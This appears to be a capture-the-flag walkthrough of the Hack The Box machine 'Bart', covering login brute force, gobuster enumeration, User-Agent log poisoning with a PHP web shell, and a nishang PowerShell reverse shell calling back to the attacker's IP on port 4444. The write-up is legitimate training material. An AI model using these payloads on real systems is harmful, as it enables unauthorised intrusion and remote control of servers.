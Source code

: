 # 25 - Internal-01

# Index
![](vx_images/325923992706.png)

# Post request
![](vx_images/1942234067797.png)



# Password brute force with a simple wordlist
![](vx_images/331457152984.png)

If needed we can use burp as a proxy for troubleshooting


# Dev Chat

![](vx_images/1582853787192.png)



# XSS doesn't work
![](vx_images/4406824434699.png)


# Gobuster against http://internal-01.bart.htb
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart]
└─$ gobuster dir -u  http://internal-01.bart.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x ".php" -o gobuster/internal.log
/index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/log/]
/sql                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/sql/]
```


![](vx_images/4133495160749.png)


![](vx_images/811966017240.png)

![](vx_images/3627757574487.png)


# log.php
![](vx_images/5732941556959.png)

log.php logs our user agent, we can try to inject php into log.php


# User Agent injection
```bash
GET /log/log.php?filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=fhq7egg6e1hbqs8luj4gak3mll
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```


# Code execution with cmd=whoami in the URL

![](vx_images/2671306583064.png)


# Copy the reverse shell 
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart/www]
└─$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
```


# Add this code to the last line
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444



# Run netcat on port 4444 for the reverse shell and  python on port 80 for the upload

```
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/bart/www]
└─$ nc -lvp 4444
```

# Download and execute the reverse shell
![](vx_images/1957208221301.png)


# We got a shell
![](vx_images/1579233864706.png)


